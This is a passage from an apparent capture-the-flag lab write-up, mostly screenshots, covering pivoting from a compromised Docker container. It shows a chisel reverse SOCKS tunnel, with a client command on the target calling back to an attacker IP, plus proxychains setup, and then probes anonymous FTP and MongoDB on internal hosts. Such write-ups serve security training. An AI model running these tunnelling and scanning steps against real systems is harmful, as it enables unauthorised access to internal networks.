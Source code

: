 <img src="https://i.imgur.com/ieS9PLj.png"/>

Transerring the nmap static binary we can scan for other docker containers if there are any

<img src="https://i.imgur.com/Yfotw3A.png"/>

<img src="https://i.imgur.com/KKm2iXe.png"/>

To access the services running on these containers we can start a socks proxy server to pivot into these services using `chisel`

On attacker machine

```bash
chisel server -p 8000 --reverse
```

On target machine

```bash
chisel client 10.10.14.32:8000 R:127.0.0.1:socks
```

<img src="https://i.imgur.com/ZqHUqza.png"/>

Make sure to include this line in in `/etc/proxychains.conf`
```
socks5          127.0.0.1 1080
```

<img src="https://i.imgur.com/UgOiqdr.png"/>

After seting this we can access the service running on other containers with `proxychains`

<img src="https://i.imgur.com/2ZAwRDl.png"/>

But we already had dumped the database through sqli, so next we can look at the ftp servcie which was running on 172.17.0.2, we can check if anonmyous user is allowed to login

<img src="https://i.imgur.com/kArvbBS.png"/>

On listing files it shows an error 

<img src="https://i.imgur.com/duQvMCX.png"/>

To avoid this we can change the mode to passive mode which uses an unprivileged port (port > 1024) to be opened on the server

<img src="https://i.imgur.com/mTilktm.png"/>

But still it doesn't show anything, moving onto 172.17.0.4 on which port 27017 is running which is used for mongodb

<img src="https://i.imgur.com/YIth4Ma.png"/>

<img src="https://i.imgur.com/SI3n0Fh.png"/>
